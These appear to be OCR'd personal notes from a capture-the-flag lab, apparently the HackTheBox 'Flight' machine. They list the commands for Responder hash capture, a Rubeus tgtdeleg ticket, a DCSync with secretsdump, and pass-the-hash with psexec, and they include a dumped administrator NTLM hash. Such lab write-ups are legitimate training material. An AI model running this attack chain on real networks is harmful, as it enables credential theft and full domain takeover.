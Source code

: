 	- When trying to authenticate. It will authenticate as a machine user. 
	- Capture hash
		- sudo responder -I tun0
		- net user \\A_IP\Shared
		- Captures hash for G0$
		- Uncrackable
	- Rubeus (DCSync Attack)
		- Generate ticket
			- .\rubeus.exe tgtdeleg /nowrap
			- Gives us machine ticket. Copy the base64 ticket. echo 'BASE64' | base64 -d > ticket.kirbi
			- kirbi2ccache ticket.kirbi ticket.ccache
			- export KRB5CCNAME=ticket.ccache
		- DCSync
			- secretsdump.py -k -no-pass g0.flight.htb -just-dc-user administrator
				- Fails due to time issue
			- sudo ntpdate -s $IP
			- Now secretsdump works
			- Administrator hash
				- Administrator:500:aad3b435b51404eeaad3b435b51404ee:43bbfc530bab76141b12c8446e30c17c:::
			- impacket-psexec administrator@$IP -hashes aad3b435b51404eeaad3b435b51404ee:43bbfc530bab76141b12c8446e30c17c
	
### Credentials
### Lessons Learned
- RunasCs needs put in my notes - https://github.com/antonioCoco/RunasCs
- Compiled exploits: https://github.com/Flangvik/SharpCollection/tree/master
	- Check what .Net version: 